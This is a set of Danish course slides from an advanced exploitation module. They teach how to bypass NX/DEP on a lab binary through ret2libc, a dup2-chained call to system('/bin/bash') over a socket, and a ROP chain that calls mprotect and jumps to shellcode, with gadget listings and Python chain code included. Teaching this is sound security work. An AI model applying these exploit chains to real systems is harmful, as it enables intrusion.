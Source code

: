 Næste mitigation - Data Execution Prevention
--------------------------------------------

Også kaldt *No Execute*, eller *W^X*

Næste mitigation - Data Execution Prevention
--------------------------------------------

[source,bash]
------------------------------------------------
$ checksec assignments/fmt_nx
[*] '/vagrant/presentations/04-advanced-exploitation/assignments/fmt_nx'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
------------------------------------------------

Næste mitigation - Data Execution Prevention
--------------------------------------------

[source,bash]
------------------------------------------------
$ grep -E '(fmt_nx)|(stack)' /proc/$(pidof fmt_nx)/maps
56559000-5655b000 r-xp 00000000 00:7d 22 /04-advanced-exploitation/fmt_nx
5655b000-5655c000 r--p 00001000 00:7d 22 /04-advanced-exploitation/fmt_nx
5655c000-5655d000 rw-p 00002000 00:7d 22 /04-advanced-exploitation/fmt_nx
ff9ae000-ff9cf000 rw-p 00000000 00:00 0  [stack]
------------------------------------------------

Løsning 1 - ret2libc
--------------------

Udføres `system("/bin/bash");` ser stakken således ud ved første instruktion i `system@libc`:

image::../images/ret2libc_1.png[width=600]

Løsning 1 - ret2libc
--------------------

Hvad nu hvis vi får stakken til at se sådan her ud lige inden en `ret` instruktion?:

image::../images/ret2libc_2.png[width=600]

Hvordan finder vi `system@libc`?
--------------------------------

Fandens komplekst men meget lærerigt at forsøge manuelt.

Rimeligt velbeskrevet her: http://uaf.io/exploitation/misc/2016/04/02/Finding-Functions.html

Indtil lysten til den slags dukker op kan I benytte `DynELF` klassen fra `pwntools`.

[source,python]
------------------------------------------------
class DynELF:
    ...
    def __init__(self, leak, pointer=None, elf=None):
        ...
------------------------------------------------

Opgave 6 - Lav arbitrary read funktion
--------------------------------------

Test den ved at resolve `system` fra `libc`

Opgave 7 - Returner til `system`
--------------------------------

Hvorfor fik vi ikke en shell?
-----------------------------

Det gjorde vi også:

[source,bash]
------------------------------------------------
[pid  5410] rt_sigprocmask(SIG_SETMASK, [], NULL, 8) = 0
[pid  5410] execve("/bin/sh", ["sh", "-c", "/bin/bash"], [/* 3 vars */]) = 0
strace: [ Process PID=5410 runs in 64 bit mode. ]
.......
[pid  5403] --- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0xdeadbeef} ---
....
------------------------------------------------

Hvorfor fik vi ikke en shell?
-----------------------------

Vi kommunikerer med processen via en socket med file descriptor 4.

Shellen snakker med stdin, stdout og stderr som har file descriptors 0, 1 og 2

Hvorfor fik vi ikke en shell?
-----------------------------

Husk `findpeersh`?

Den fandt en socket filedescriptor og kopierede den til filedescriptor 0, 1 og 2.

Vi kan gøre det samme.

Opgave 8 - Chained ret2libc
---------------------------

Vi skal gøre dette:

[source,c]
------------------------------------------------
dup2(4, 0);
dup2(4, 1);
dup2(4, 2);
system("/bin/bash");
------------------------------------------------

Opgave 8 - Chained ret2libc
---------------------------

Men det er problematisk

image::../images/bad_chaining.png[width=600]

Opgave 8 - Chained ret2libc
---------------------------

Ryd stakken mellem "kald"

image::../images/good_chaining.png[width=300]

Ingen libc?
-----------

* Statisk lænkede programmer
* Hvis vi ikke kan resolve

Return Oriented Programming (ROP)
---------------------------------

Kræver kontrol med stakken.

ROP Gadget: Kort serie af instruktioner som ender med `ret` eller `call/jmp` til et register

ROP Chain: Serie af gadgets, som opnår et delmål

Kæd dem sammen ved at returnere rundt for at opnå et større mål.

Return Oriented Programming (ROP)
---------------------------------

Indsamling af gadgets

[source,bash]
------------------------------------------------
$ ROPgadget --multibr --binary assignments/fmt_nx
Gadgets information
============================================================
0x00000936 : adc al, 0x24 ; call eax
0x00000983 : adc al, 0x24 ; call ecx
0x00001297 : adc al, 0x41 ; ret
....
0x00000b4d : sub esp, 0x44 ; call 0x8f9
0x0000071d : sub esp, 8 ; call 0x8f9
0x00000931 : test eax, eax ; je 0x92c ; mov dword ptr [esp], edx ; call eax
0x00001293 : xor byte ptr [edx], al ; dec eax ; push cs ; adc al, 0x41 ; ret

Unique gadgets found: 158
------------------------------------------------

Return Oriented Programming (ROP)
---------------------------------

Dem vi kan nøjes med

[source,bash]
------------------------------------------------
0x00000d13 : add esp, 0x44 ; pop ebx ; pop ebp ; ret
0x00000e8d : int 0x80 ; ret
0x0000073d : pop ebx ; ret
0x00000d7b : pop eax ; ret
0x0000073b : les ecx, ptr [eax] ; pop ebx ; ret
0x00000a06 : lea edx, dword ptr [ebx - 0x110] ; mov dword ptr [esp], edx ; call eax
0x00000928 : pop ebx ; pop ebp ; ret
------------------------------------------------

Return Oriented Programming (ROP)
---------------------------------

Slutmålet med vores kæde:

[source,c]
------------------------------------------------
mprotect(shellcode, PAGE_SIZE * 2, PROT_READ|PROT_WRITE|PROT_EXEC);
((void(*))shellcode)();
------------------------------------------------

[source,asm]
------------------------------------------------
mov eax, SYS_mprotect
mov ebx, shellcode
mov ecx, PAGE_SIZE * 2
mov edx, PROT_READ | PROT_WRITE | PROT_EXEC
int 0x80
jmp shellcode
------------------------------------------------

Return Oriented Programming (ROP) - delmål 1
--------------------------------------------

`edx = PROT_READ|PROT_WRITE|PROT_EXEC = 7`

[source,python]
------------------------------------------------
fmt_base + POP_EBX, # pop ebx ; ret
7 + 0x110,          # ->ebx
fmt_base + POP_EAX, # pop eax ; ret
fmt_base + POP2,    # ->eax = pop ebx ; pop ebp ; ret
fmt_base + LEA_EDX, # lea edx, dword ptr [ebx - 0x110] ; mov dword ptr [esp], edx ; call eax
0xdeadbeef,         # Will be overwritten
------------------------------------------------

Return Oriented Programming (ROP) - delmål 2
--------------------------------------------

`ecx = PAGE_SIZE * 2` og `ebx = shellcode`

[source,python]
------------------------------------------------
poke(fmt_base + 0x3000, p32(PAGE_SIZE * 2) + "\0\0")
------------------------------------------------

`fmt_base + 0x3000` er en skrivbar datasektion.

[source,python]
------------------------------------------------
fmt_base + POP_EAX, # pop eax ; ret
fmt_base + 0x3000,  # ->eax
fmt_base + LES_ECX, # les ecx, ptr [eax] ; pop ebx ; ret
buffer & PAGE_MASK, # address to mprotect must be on a page boundary
------------------------------------------------

Return Oriented Programming (ROP) - delmål 3
--------------------------------------------

Udfør systemkald til `mprotect` og spring så til shellcoden

[source,python]
------------------------------------------------
fmt_base + POP_EAX,           # pop eax ; ret
int(constants.SYS_mprotect),  # ->eax
fmt_base + INT_80,            # int 0x80 ; ret
buffer
------------------------------------------------
